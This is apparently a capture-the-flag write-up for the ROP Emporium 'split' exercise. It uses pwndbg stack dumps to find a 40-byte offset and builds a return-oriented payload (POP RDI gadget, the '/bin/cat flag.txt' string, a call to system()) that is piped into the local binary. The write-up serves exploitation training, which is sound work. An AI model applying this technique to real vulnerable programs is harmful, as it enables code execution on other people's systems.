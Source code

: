 ```c

   0x400750 <usefulFunction+14>    nop
   0x400751 <usefulFunction+15>    pop    rbp
─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ rsi rsp 0x7fffffffe030 ◂— 'AAAABBBBCCCCDDDD\n'
01:0008│         0x7fffffffe038 ◂— 'CCCCDDDD\n'
02:0010│         0x7fffffffe040 ◂— 0xa /* '\n' */
03:0018│         0x7fffffffe048 ◂— 0x0
04:0020│ rbp     0x7fffffffe050 —▸ 0x7fffffffe060 ◂— 0x0
05:0028│         0x7fffffffe058 —▸ 0x4006d7 (main+64) ◂— mov    edi, 0x400806
06:0030│         0x7fffffffe060 ◂— 0x0
07:0038│         0x7fffffffe068 —▸ 0x7ffff7de40b3 (__libc_start_main+243) ◂— mov    edi, eax
───────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0         0x400735 pwnme+77
   f 1         0x4006d7 main+64
   f 2   0x7ffff7de40b3 __libc_start_main+243
────────────────────────────────────────────────────────────────────────────────────────────────────
```

Lets view the base pointer and stack values,

```c
pwndbg> x/2wx $rbp
0x7fffffffe050:	0xffffe060	0x00007fff
pwndbg> x/30wx $rsp
0x7fffffffe030:	0x41414141	0x42424242	0x43434343	0x44444444
0x7fffffffe040:	0x0000000a	0x00000000	0x00000000	0x00000000
0x7fffffffe050:	0xffffe060	0x00007fff	0x004006d7	0x00000000
0x7fffffffe060:	0x00000000	0x00000000	0xf7de40b3	0x00007fff
0x7fffffffe070:	0xf7ffc620	0x00007fff	0xffffe158	0x00007fff
0x7fffffffe080:	0x00000000	0x00000001	0x00400697	0x00000000
0x7fffffffe090:	0x00400760	0x00000000	0x476a4495	0x0e66cfe5
0x7fffffffe0a0:	0x004005b0	0x00000000
```

So our base pointer ```0xffffe060``` is at ```0x7fffffffe050``` and our buffer begins at ```0x7fffffffe030```

```c
>>> print(0x7fffffffe050-0x7fffffffe030)
32
```

The buffer space is ```32 bytes```

Now we have to pass ```40 bytes``` (32+8) of junk to reach Instruction Pointer

Our payload can be crafted as,

``` payload = 40 bytes of junk + Addr of POP RDI gadget + Addr of argument + Call Addr of system() ```


Address of POP RDI gadget = 0x00000000004007c3

Address of argument data (/bin/cat flag.txt) = 0x00601060

Address of call inst to system() = 0x000000000040074b

Lets try our exploit,

```c
ra@moni:~/split$ python2 -c "print('A'*40+'\xc3\x07\x40\x00\x00\x00\x00\x00'+'\x60\x10\x60\x00\x00\x00\x00\x00'+'\x4b\x07\x40\x00\x00\x00\x00\x00')" | ./split
split by ROP Emporium
x86_64
```